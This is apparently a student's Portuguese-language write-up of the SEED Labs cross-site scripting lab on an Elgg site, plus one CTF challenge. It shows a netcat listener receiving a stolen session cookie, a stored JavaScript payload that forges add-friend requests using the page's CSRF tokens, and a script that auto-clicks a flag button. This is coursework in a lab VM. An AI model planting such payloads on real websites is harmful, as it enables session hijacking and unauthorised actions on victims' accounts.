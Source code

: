 # Trabalho realizado na Semana #10

## **Seed Labs**

## Tarefa 1

Colocando o seguinte script javascript na brief description fazemos com que quem visite o nosso perfil receba um alert.
![alert](images/alert_script.png)
![alert](images/alert.png)



## Tarefa 2


Colocando o seguinte script javascript na brief description fazemos com que quem visite o nosso perfil receba um alert com as suas cookies.

![cookie](images/cookie_script.png).png)
![cookie](images/cookie.png)


## Tarefa 3



Colocando o seguinte script javascript na brief description fazemos com que quem visite o nosso perfil envie as suas cookies para o endereço à nossa escolha.
![alert](images/send_cookie.png).png)

```

[01/04/22]seed@VM:~/.../Labsetup$ nc -lknv 10.9.0.1 5555
Listening on 10.9.0.1 5555
Connection received on 10.0.2.4 57828
GET /?c=Elgg%3Dpu2btvuk5tn4qja8rmlpu2n7es HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: image/avif,image/webp,*/*
Accept-Language: pt-PT,pt;q=0.8,en;q=0.5,en-US;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/

```


## Tarefa 4

Quando alguém adiciona o Sammy aos amigos é gerado o seguinte request URL:

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1641298313&__elgg_token=EngTeTi2UKXmCwYNdnKckQ&__elgg_ts=1641298313&__elgg_token=EngTeTi2UKXmCwYNdnKckQ
```

Pelo que o nosso objetivo será gerar esse mesmo request sempre que alguém entrar no perfil de Samy. Conseguimos isso utilizando o seguinte script que é colocado em "About Me" em modo texto:

```js
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```

Quando um utilizador visita o perfil de Samy, é gerado o request para adicioná-lo aos amigos. O botão "Add friend" continua a aparecer, mas ao dar refresh este muda para "Remove friend", como esperado.


![before](images/before.png)


![after](images/after.png)

Utilizando o HTTP Header Live podemos confirmar que o request está a ser gerado quando um utilizador entra no perfil de Samy, como pretendido.

![req](images/request.png)

# **CTF - Desafio 1**

Após analisar a resposta do administrador ao pedido da flag, observou-se que seria possível utilizar um dos botões para obter a flag. 
Para isso, colocou-se o seguinte script no formulário de submissão da justificação:

```js
<script>
  document.getElementById("giveflag").click();
</script>
```

